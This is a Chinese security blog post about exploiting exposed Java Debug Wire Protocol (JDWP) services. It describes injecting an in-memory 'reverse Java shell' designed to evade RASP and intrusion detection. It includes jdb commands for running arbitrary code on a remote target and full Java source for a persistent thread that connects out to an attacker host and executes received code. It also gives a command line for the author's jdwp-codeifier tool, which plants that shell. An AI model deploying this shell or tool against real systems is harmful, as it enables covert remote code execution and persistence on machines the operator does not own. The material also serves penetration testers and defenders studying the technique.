




# 通过JDWP漏洞注入"不一样"的内存马 - 先知社区

通过JDWP漏洞注入"不一样"的内存马

- - -

JDWP全称Java Debug Wire Protocol，JDWP漏洞指对外开放了Java调试服务，从而可以实现远程代码执行。目前JDWP的武器化脚本一般只能命令执行，但直接执行命令可能被RASP拦截告警，或者被入侵检测发现，而且在实际渗透测试过程中，也不一定需要执行命令，更需要的可能是一个入口，这种情况下通常是注入内存马或者内存代理。本文基于这个需求实现了可以动态执行代码并注入内存马的JDWP漏洞利用工具。

## JDWP漏洞利用

除了通过现有的脚本执行系统命令以外，其实也可以通过Java自带工具jdb执行任意Java代码：

```plain
jdb -connect com.sun.jdi.SocketAttach:hostname=127.0.0.1,port=8000
threads   #查找休眠线程
thread 0x25c   #选择休眠线程
stepi
eval java.lang.System.getProperty("os.name")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205001653-896d7654-92c0-1.png)

但有的类并不能直接使用，会出现找不到该类的情况，例如：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205001701-8ea0a970-92c0-1.png)

当然也可以通过反射去加载，或者可能还有其他加载方式，不过我也没仔细研究这块，毕竟通过jdb执行代码还是很麻烦

## 反向内存Shell

所谓内存马，应该一般都指内存WebShell，这块已经有非常多的研究文章了。但如果放到JDWP漏洞中来看，可能并不一定适用，因为存在漏洞的应用本身或许不是一个Web应用。而这种情况下无论是通过常规意义上的反弹shell还是下载二进制木马进行进一步利用，都是一个敏感且高危的操作，可能被RASP拦截或者被入侵检测发现。

既然可以执行Java代码，那么其实可以在Java进程中启动一个线程，通过自定义的逻辑，去反弹出一个执行Java代码的"Shell"，具体实现如下：

```plain
package org.example;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;
import java.time.Duration;
import java.time.LocalDateTime;

public class App extends Thread {
    private ScriptEngine scriptEngine;

    private String host;
    private Integer port;
    private Double life;

    private String execCode(String code) {
        if (code.trim().equals("")) {
            return "";
        }
        try {
            Object result = scriptEngine.eval(code);
            if (result != null) {
                return result + "\n";
            } else {
                return "";
            }
        } catch (Exception e) {
            return e + "\n";
        }
    }

    private String getInfo() {
        String info = "  os: " + System.getProperty("os.name") + " " + System.getProperty("os.arch") + " " + System.getProperty("os.version");
        info += "\n";
        info += "user: " + System.getProperty("user.name");
        info += "\n";
        try {
            info += "host: " + InetAddress.getLocalHost().getHostName();
        } catch (Exception e) {
            info += "host: " + e;
        }
        return info;
    }

    @Override
    public void run() {
        boolean exit = false;
        LocalDateTime time = LocalDateTime.now();
        while (Duration.between(time, LocalDateTime.now()).toMillis() / (60.0 * 1000.0) < life && !exit) {
            try {
                Socket socket = new Socket(host, port);
                PrintWriter out = new PrintWriter(socket.getOutputStream());
                BufferedReader in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                scriptEngine = new ScriptEngineManager().getEngineByName("js");

                out.print(getInfo() + "\n\n>>> ");
                out.flush();
                String input;
                while ((input = in.readLine()) != null) {
                    time = LocalDateTime.now();

                    if (input.trim().equals("exit") || input.trim().equals("exit()")) {
                        exit = true;
                        socket.close();
                        break;
                    }
                    out.print(execCode(input) + ">>> ");
                    out.flush();
                }
            } catch (Exception e) {
                ;
            }

            if (!exit) {
                try {
                    Thread.sleep(5 * 1000);
                } catch (InterruptedException e) {
                    ;
                }
            }
        }
    }

    public App(String host, Integer port, Double life) {
        this.host = host;
        this.port = port;
        this.life = life;
    }

    public static void exploit(String host, Integer port, Double life) {
        new App(host,  port,  life).start();
    }

    public static void main(String[] args) {
        exploit("127.0.0.1", 8080, 0.3);
    }
}
```

服务端通过nc监听即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205001716-9773f20a-92c0-1.png)

这样就得到了一个交互式的不易被拦截的代码执行Shell，对比正向的内存WebShell，用"反向Java内存Shell"去形容似乎更准确些。按照这个思路，其实还可以写一个"反向Java内存代理"，类似于frp的socks5反向代理功能

## jdwp-codeifier

对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：[https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：[https://github.com/Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier)

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：[https://github.com/r3change/jdwp-shellifier](https://github.com/r3change/jdwp-shellifier)

但以上都无法满足前文中的代码执行需求，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为[jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显。同时也将上文中的内存Shell内置进了工具中，反弹Java内存Shell：

```plain
python jdwp-codeifier.py -t 192.168.65.254 -p 8000 -m rshell -a 127.0.0.1:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205001730-9f7cc47c-92c0-1.png)

最后，项目地址：[https://github.com/l3yx/jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)
